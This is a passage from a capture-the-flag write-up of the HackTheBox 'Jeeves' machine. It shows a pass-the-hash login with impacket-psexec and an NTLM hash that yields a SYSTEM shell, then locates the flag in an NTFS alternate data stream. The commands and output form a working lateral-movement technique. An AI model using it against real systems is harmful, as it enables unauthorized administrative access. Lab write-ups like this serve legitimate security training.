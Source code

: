 Then, using this hash on `impacket-psexec`, I can easily open a shell as `Administrator`.

```bash
┌──(kali㉿kali)-[~/htb/jeeves]
└─$ impacket-psexec Administrator@10.10.10.63 -hashes :e0fb1fb85756c24235ff238cbe81fe00
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Requesting shares on 10.10.10.63.....
[*] Found writable share ADMIN$
[*] Uploading file QSfWQYRN.exe
[*] Opening SVCManager on 10.10.10.63.....
[*] Creating service QnRw on 10.10.10.63.....
[*] Starting service QnRw.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.10586]
(c) 2015 Microsoft Corporation. All rights reserved.

C:\Windows\system32> whoami
nt authority\system
```

### ADS (Alternative Data Stream)

```bash
C:\Users\Administrator\Desktop> dir
 Volume in drive C has no label.
 Volume Serial Number is 71A1-6FA1

 Directory of C:\Users\Administrator\Desktop

t11/08/2017  09:05 AM    <DIR>          .
y11/08/2017  09:05 AM    <DIR>          ..
p12/24/2017  02:51 AM                36 hm.txt
e 11/08/2017  09:05 AM               797 Windows 10 Update Assistant.lnk
               2 File(s)            833 bytes
               2 Dir(s)   2,618,716,160 bytes free


C:\Users\Administrator\Desktop> type hm.txt
The flag is elsewhere.  Look deeper.
```

It seems that `root.txt` flag is not directly stored on `Administrator`'s desktop.
Instead, it's stored on ADS stream.
With `/R` option, I can list all ADS streams.

```bash
C:\Users\Administrator\Desktop> dir /R
 Volume in drive C has no label.
 Volume Serial Number is 71A1-6FA1

 Directory of C:\Users\Administrator\Desktop

11/08/2017  09:05 AM    <DIR>          .
11/08/2017  09:05 AM    <DIR>          ..
12/24/2017  02:51 AM                36 hm.txt
                                    34 hm.txt:root.txt:$DATA
11/08/2017  09:05 AM               797 Windows 10 Update Assistant.lnk
               2 File(s)            833 bytes
               2 Dir(s)   2,618,716,160 bytes free
```
